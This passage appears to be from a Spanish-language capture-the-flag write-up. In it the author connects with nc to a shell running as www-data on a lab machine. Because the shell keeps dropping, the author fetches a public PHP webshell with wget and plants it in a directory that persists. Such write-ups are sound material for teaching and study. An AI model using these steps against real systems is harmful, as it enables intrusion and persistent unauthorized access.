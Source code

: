 Y ahora si nos conectamos a este puerto...
```console
$ nc 10.129.220.101 8080
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

El problema es que cada X tiempo surge un 504 Gateway Time-out y hay que repetir el proceso.

Así que para trabajar más cómodamente me di cuenta de que podíamos crear un directorio **a través de la webshell** y no se borraba.

![Write-up Image](images/Screenshot_24.png)

![Write-up Image](images/Screenshot_25.png)

Me descargué esta webshell de Github.
```console
$ wget https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php
```

La subí en ese directorio y ya tenemos una web shell mas que decente que no se borra :)
![Write-up Image](images/Screenshot_26.png)
